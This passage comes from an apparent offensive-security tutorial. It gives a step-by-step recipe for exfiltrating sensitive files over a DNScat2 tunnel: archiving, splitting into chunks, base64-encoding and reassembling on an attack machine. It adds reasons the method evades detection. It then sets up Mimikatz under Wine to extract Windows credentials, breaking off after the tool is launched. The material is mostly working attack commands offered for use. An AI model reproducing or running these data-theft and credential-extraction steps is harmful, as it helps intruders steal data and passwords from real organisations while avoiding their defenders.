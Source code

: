 4. **Exfiltrate large files efficiently**:

```bash
# First, prepare the data on the target system:
tar -czf /tmp/exfil.tar.gz /path/to/sensitive/data/
split -b 10M /tmp/exfil.tar.gz /tmp/exfil_part_

# On the DNScat2 server:
dnscat2> session -i 1
dnscat2> shell

# In the shell session:
for part in /tmp/exfil_part_*; do
  echo "Transferring $part..."
  base64 $part | tr -d '\n' > $part.b64
  cat $part.b64
done > received_data.b64

# On your attack machine, outside DNScat2:
cat received_data.b64 | base64 -d > exfil.tar.gz
tar -xzf exfil.tar.gz
```

This technique works effectively because:
- DNS traffic is rarely blocked completely, even in highly restricted environments
- The encrypted tunnel prevents inspection of the actual data being transferred
- Breaking large files into smaller chunks helps avoid detection based on DNS query size
- Using base64 encoding ensures the data can be transferred as valid DNS names

## Mimikatz (on Linux): Credential Extraction

While Mimikatz is primarily known as a Windows tool, its capabilities can be leveraged from Linux systems to extract Windows credentials, especially in mixed environments.

### Installation

```bash
# On Kali Linux, Mimikatz is usually pre-installed
# If not, you can install it:
apt update
apt install mimikatz

# For cross-platform usage, also install Wine:
apt install wine winetricks
```

### Basic Usage

There are several approaches to using Mimikatz from Linux environments:

#### 1. Running Mimikatz through Wine

```bash
# Download Mimikatz Windows binary
wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210810/mimikatz_trunk.zip
unzip mimikatz_trunk.zip
wine mimikatz.exe
```
